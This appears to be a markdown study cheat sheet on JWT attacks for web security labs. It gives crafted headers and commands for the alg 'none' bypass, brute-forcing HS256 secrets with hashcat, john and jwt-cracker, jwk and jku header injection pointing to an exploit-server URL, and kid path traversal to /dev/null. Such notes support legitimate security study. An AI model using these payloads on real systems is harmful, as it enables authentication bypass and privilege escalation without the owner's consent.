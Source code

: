 ### JSON Web tokens

---

JSON web tokens (JWTs) are a standardized format for sending cryptographically signed JSON data between systems. Use - authentication, session handling, and access control mechanisms.

Task : We need to generate a JWT token having an admin role instead of having a user. Finding the key used to sign is important otherwise the signature for a different payload won't be correct.

1. `Unverified signature` - No need to verify signature due to implementation flaw, just change the paramters and construct jwt.
2. `Flawed verification` - Change algo to "none" and leave the signature blank to bypass due to flawed implementation.
3. `Weak signing key HS256 (HMAC + SHA-256)` - Sometimes the JWT is encrypted with some hashing algorithm, we need to break it using 'john the ripper' or other bruteforcing tool and reconstruct the jwt. [jwt-secrets](https://github.com/wallarm/jwt-secrets/blob/master/jwt.secrets.list)

```py
hashcat -a 0 -m 16500 <jwt> <wordlist> --show  

% jwt-cracker -t eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJpZCI6MSwiaWF0IjoxNzA5OTMzODUzfQ.aDP5hVVQQN2uFQL15oTBG1B83j8MnQu0f7IRxodKm24 -d wordlists/rockyou.txt
john jwt.txt --wordlist=/usr/share/wordlists/rockyou.txt --format=HMAC-SHA256

SECRET FOUND: banana
Time taken (sec): 0.123
Total attempts: 20000
```

#### Self-signed JWT attacks

---


4. `jwk header injection` - Change the required paramter then create a new RSA key, use JWT editor, embed the jwk with your newly created RSA key and send the request.

```json
{
    "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
    "typ": "JWT",
    "alg": "RS256",
    "jwk": {
        "kty": "RSA",
        "e": "AQAB",
        "kid": "ed2Nf8sb-sD6ng0-scs5390g-fFD8sfxG",
        "n": "yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9m"
    }
}
```

5. `jku header injection` - A JWK Set is a JSON object containing an array of JWKs representing different keys. You can see an example of this below. Add the jku paramter in header part of jwt and sign the jwt with the generated RSA key, also change the `kid` if it's already there in header.

```json
{
    "kid": "240c7c33-0eb9-46a6-bc2d-650db9188d6f",
    "alg": "RS256",
    "jku": "https://exploit-0ab2008a0391a2ea878b626601c2009c.exploit-server.net/exploit"
}
```

```json
{
    "keys": [
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "75d0ef47-af89-47a9-9061-7c02a610d5ab",
            "n": "o-yy1wpYmffgXBxhAUJzHHocCuJolwDqql75ZWuCQ_cb33K2vh9mk6GPM9gNN4Y_qTVX67WhsN3JvaFYw-fhvsWQ"
        },
        {
            "kty": "RSA",
            "e": "AQAB",
            "kid": "d8fDFo-fS9-faS14a9-ASf99sa-7c1Ad5abA",
            "n": "fc3f-yy1wpYmffgXBxhAUJzHql79gNNQ_cb33HocCuJolwDqmk6GPM4Y_qTVX67WhsN3JvaFYw-dfg6DH-asAScw"
        }
    ]
}
```

6. `kid header path traversal` - If the kid parameter is vulnerable to path traversal, we can sign our jwt with an empty string like `../../../../../../dev/null` or any other predictable file in a filesystem. Thus, since jwt key is signed with a null string, we can bypass the auth.

```py
{
    "kid": "../../../../../../../dev/null",
    "alg": "HS256"
}

Signing key : {
    "kty": "oct",
    "kid": "14f35b95-59a6-4a25-a1fd-61bf8c84e166",
    "k": "AA=="
}
```

---

`cty` and `x5c` are few other vuln headers which can be exploited.

